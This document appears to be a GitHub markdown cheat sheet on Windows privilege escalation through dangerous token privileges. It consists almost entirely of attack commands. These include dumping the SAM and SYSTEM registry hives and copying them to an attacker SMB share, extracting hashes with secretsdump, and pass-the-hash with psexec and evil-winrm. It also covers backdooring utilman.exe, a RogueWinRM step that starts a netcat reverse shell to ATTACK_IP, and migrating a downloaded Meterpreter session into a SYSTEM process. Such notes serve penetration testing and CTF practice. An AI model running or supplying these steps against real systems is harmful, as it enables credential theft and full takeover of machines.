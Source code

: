 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

 - cd /

 - mkdir temp

 - cd temp

 - req save hklm\system c:\temp\system

 - req save hklm\sam c:\temp\sam

 - download sam

 - download system

#### 2: Create SMB Server on attacking machine

 - 1: mkdir share

 - 2: impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

- copy c:\users\user\sam.hive \\ATTACK_IP\public\

- copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

 - impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

 - pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

- impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

- evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege

## Alternate Method: Robocopy

 - robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

 - type C:\Users\Public\root.txt

## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: takeown /f c:\windows\system32\utilman.exe

#### 2: icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: copy cmd.exe utilman.exe

#### 4: Trigger uitlman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

#### c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

## SeDebug Privilege

### Tools: Meterpreter, https://github.com/decoder-it/psgetsystem

### Steps:

#### 1) Get-Process winlogon (Check for a specific SYSTEM level process running on the machine)

#### 2) Download and execute Meterpreter on target machine to connect to us

#### 3) ps (Check for processes running as SYSTEM. Example: winlogon.exe)

#### 4) migrate PID (Take ownership of the elevated process)

#### 5) VOILA!

## TIP: If the SeDebug Privilege is disabled, we can enable it with psgetsystem powershell script (Link attached at the top of this attack's explanation)
